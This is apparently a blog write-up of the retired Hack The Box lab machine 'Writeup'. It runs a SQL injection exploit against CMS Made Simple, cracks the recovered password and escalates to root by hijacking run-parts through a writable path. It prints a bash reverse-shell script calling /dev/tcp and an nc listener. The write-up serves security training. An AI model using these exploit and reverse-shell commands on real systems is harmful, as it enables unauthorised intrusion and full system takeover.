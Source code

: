 ```yaml
---
layout: post
title:  "HTB - Writeup"
date:   2019-09-01 20:00 +0100
tags: writeups
---
```

Writeup for the retired HTB machine Writeup  
Link: https://www.hackthebox.eu/home/machines/profile/192  
IP: 10.10.10.138

<!--more-->

## Recon
Only Port 22 and 80 are open.
The page on Port 80 informs you that a DoS-Protection is in place, so no Dirbusting or Credential Stuffing!  
Instead, we spider the page with Owasp-ZAP. This yields some interesting paths.
```
/robots.txt
/sitemap.xml
/writeup/
/writeup/index.php?page=ypuffy
/writeup/index.php?page=blue
/writeup/index.php?page=writeup
```


## Webserver
The `robots.txt` leads us to /writeup, which doesn't seem to be DoS-Protected.  
Also, wappalyzer informs us that the site is built with *CMS Made Simple*.
By utilizing `searchsploit`, we find a SQL Injection for < 2.2.10. Important to note:  
Patch the `TIME` variable if you're on free! (I set mine to 4, the writeup page hints to 3 seconds).  
Now let it crack the password:

`python2 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/dirb/common.txt`

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
Dunno why, but the passcracker (`--crack`) refuses to run. I've put a simplified version into passcracker.py.  
If called with *rockyou.txt*, the password `raykayjay9` is found, which enables us to log in as ssh user jkr :3


Enumerate and have a look what happens on the system with `pspy`. If watched closesly, one can observe   
that a dynamic MOTD is generated. Maybe this can be exploited with path loading order?  
~~The only script in `/etd/update-motd.d`, `10-uname`, calls `uname` with a relpath, so if we overwrite uname with a shell, we're golden.~~  

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 

/usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d 
```
By playing around we see that `/usr/local/sbin` is writable. Simply place a script named `run-parts` there that opens a reverse shell to the own machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.13.125/9999 0>&1
```

On your own machine, run `nc -nvlp 9999` for a receiving end. The next time a user logs in, the shell is triggered. After that, the root.txt can be catted.
